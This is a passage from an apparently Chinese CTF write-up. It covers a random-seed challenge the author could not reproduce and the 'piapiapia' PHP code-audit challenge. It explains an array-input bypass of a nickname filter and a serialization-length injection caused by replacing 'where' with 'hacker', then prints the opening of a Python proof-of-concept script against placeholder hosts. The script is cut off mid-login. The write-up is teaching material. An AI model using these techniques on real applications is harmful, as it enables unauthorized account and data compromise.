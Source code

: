 ```
```

然后我没做出来的问题在于。。。。我不会python..
error code:
```
ran_num.append(int(cont[1:-33]))
md5_num = cont[-33:-1]
```

然后这题发现没法复现，本地或是自己的服务器中，每次访问rand的seed都会变，就算keep-alive也是。。不知道题目服务器做了啥设置。。。

# piapiapia

这题是代码审计，让我知道了原来我不会php
大致看了一遍可以看出一处问题：
```
// update.php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');
```

如果POST或者GET传参除了字符串还可以传递数组，所以如果nickname为数组的话，则可绕过该判断。update.php中之后是将输入序列化，在profile.php中反序列化。所以猜测是序列化这有洞，可是google搜了一通之后。得到的都是Joomla的反序列化截断漏洞。并没有得到啥有用的信息。。

然后又有一发现
```
$safe = array('select', 'insert', 'update', 'delete', 'where');
$safe = '/' . implode('|', $safe) . '/i';
return preg_replace($safe, 'hacker', $string);
```

如果输入中有where则会变成hacker，多了一个字符，反序列化的时候会出错。。当时并没有想出利用方法。。之后看了wp之后才知道。

payload:
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests
import re
import base64

class POC:
	def __init__(self):
		self.data = {"username": "ddog1", "password": "ddog1"}
		self.reg()
		self.login()
		self.fuck()
		self.get_flag()	
			
	def reg(self):
		url = "http://xxx/register.php"
		req = requests.post(url, data=self.data)
		if req.status_code != 200:
			print req.content
			exit(-1)
			
	def login(self):
		url = "http://xxx:8085/index.php"
		req = requests.post(url, data=self.data)
		if not re.search("UPDATE|Profile",req.content):
			print req.content
			print "login fail！"
			exit(-1)
		cookie = req.request.headers['Cookie']
		cookie = cookie.split("=")
```